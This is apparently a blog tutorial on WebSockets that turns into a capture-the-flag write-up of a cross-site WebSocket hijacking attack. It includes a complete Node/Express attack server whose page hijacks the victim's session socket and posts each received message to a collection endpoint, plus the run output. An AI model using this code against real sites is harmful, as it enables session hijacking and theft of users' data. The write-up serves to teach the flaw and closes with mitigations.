

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can

## What are web Sockets?

WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

You may have seen some [HTTP 101](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/101) code for `SWITCHING PROTOCOLS`. In most of the cases this is the initiatior of a websocket connection, this request also contains a `Upgrade` header containing the protocol the client wants to switch to, this header will ask the server if it's possible to switch to that protocol.

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response.

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature, and by non-transactional meaning not expecting any response. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data, live-chat apps or intercom banners.

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:

```js
// for secure (TLS) websocket connections
var ws = new WebSocket("wss://target-website.com/ws");
// for insecure websocket connections
var ws = new WebSocket("ws://target-website.com/ws");
```

During the connection establishment, a handshake is performed between the browser and server over HTTP like in this example:

```yaml
// Request
GET ws://www.host.org/ws HTTP/1.1
Host: www.host.org
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: nQ+0IHd8Ey26tEU5mum6QA==
Sec-WebSocket-Extensions: permessage-deflate; client_max_window_bits
Cookie: connect.sid=s%3Ae_W0BpxLsWcg0QMiqPHHqxIdaoMEI6C9

// Response
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: a7A1ESC2+XPFwy2coXGo3avSOLg=
```

We can see that this is an express.js app, as it uses the `connect.sid` default for session handling.

Tear down of the WebSocket Handshake:

1. The `Connection` and `Upgrade` headers signal the initiation of a WebSocket handshake.
2. The `Sec-WebSocket-Version` header indicates the desired WebSocket protocol version, usually 13.
3. A Base64-encoded random value is sent in the `Sec-WebSocket-Key` header, ensuring each handshake is unique, which helps to prevent issues with caching proxies. This value is not for authentication but to confirm that the response is not generated by a misconfigured server or cache.
4. The `Sec-WebSocket-Accept` header in the server's response is a hash of the `Sec-WebSocket-Key`, verifying the server's intention to open a WebSocket connection.

## Check connection status

If you head to the ["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

With the [open_event](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/open_event) function we can initialize our websocket to send a message or log some information, this open event is the one that will change our state from 0 to 1.

## Let's get this party started

As in late summer nights, my brain enjoys doing some Capture The Flag challenges. In this case there's this one titled `Websocket - 0 protection`, let's get it on.

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.

Let's go to the CTF challenge chatbox, we see these HTTP calls

```yaml
// REQUEST
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctfroom.com
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket


// RESPONSE
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, a cookie is set and there's nothing regarding CSRF tokens, looks promising!  
We can see that we need the cookie to be able to use the chat, so chat interaction is solely managed by the cookie.

The only interactions we can do as a non-privileged user are the following:

```yaml
You: hello
Bot: Hello, welcome to our new service. I am a bot so I only can do those actions:
- Tell you who is the best hacker
- Tell you a secret
- Create a random string
If I don't know what to answer, i will only smile as a discord administrator :-)

-------------------------------------------------------------
You: secret
Bot: My developer made me with nodeJS !

[...]
```

For now we see that the `/ws` page is vulnerable to CSRF, potentially to CSWSH (Cross Site WebSocket Hijacking) as the origin is not checked and the session cookie doesn't have a `SameSite` attribute set.

## CSWSH

As I am feeling memeful, this Cross Site Web Socket Hijacking reminds me to the lightning Mc Queen onomatopeia


Moving on, 
As the `SameSite` is unset this means site is vulnerable to CSRF.  
Let's build our malicious webpage that can open a WS connection to the vulnerable server using the victim's session.  
But... WHICH victim?
After some time spent crawling this webpage, we see a "report a bug". As this is a CTF game seems an obvious way for an automation to hook into our malitious webpage.

Let's build the webpage, as this was build with node, let's also do it with node :sunglasses:

```js
const http = require('http');
const express = require('express');
const bodyParser = require('body-parser');
const app = express();
const PORT = 9998;

// Use body-parser to parse JSON bodies
app.use(bodyParser.json());

// Serve the malicious webpage
app.get('/', (req, res) => {
    res.send(`
        <html>
        <body>
            <h1>CSWSH</h1>
            <script>
                // Establish WebSocket connection to the vulnerable server
                const ws = new WebSocket('ws://ctfroom.com/ws');

                ws.onopen = function(event) {
                    console.log('WebSocket is open now.');
                    // let's submit with the "hello" message
                    ws.send('hello');
                };

                // debug
                console.log(ws.readyState) // this should return '1' meaning it's ready to communicate

                // on every message, let's collect the payload the server sends us back
                ws.onmessage = function(event) {
                    console.log('Message from server: ', event.data);

                    // Send the received data to your server
                    fetch('/collect', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json',
                        },
                        body: JSON.stringify({ data: event.data })
                    });
                };
            </script>
        </body>
        </html>
    `);
});

// Endpoint to collect the exfiltrated data
app.post('/collect', (req, res) => {
    console.log('Data received from admin:', req.body.data);
    res.sendStatus(200);
});

const server = http.createServer(app);
server.listen(PORT, () => {
    console.log(`Server is listening on http://0.0.0.0:${PORT}`);
});
```

After we crafted our very malicious site, we can submit the url from our server in the "report a bug" page:



After the CTF automation took place impersonating a privileged user, we have some new WS messages, our CSWSH has been succesful.

```sh
❯ npm install express && node server.js
Server is listening on http://0.0.0.0:9998
Data received from admin: Hello Admin!
You can test the features being implemented:
-Get the flag
-Receive a compliment
```

Our next obvious step is to change the `.send()` to get the flag :wink:

## Conclusions

We learned that WebSockets may open the door to security flaws if not properly set, this could be mitigated by adding a CSRF cookie or by adding a SameSite attribute to the cookie session.  
We should always check the origin of the requests when we expose a microservice outside, sanitizing inputs are not always enough.  
Remember to have fun!

References:

- <https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc>
- <https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking#performing-a-cross-site-websocket-hijacking-attack>
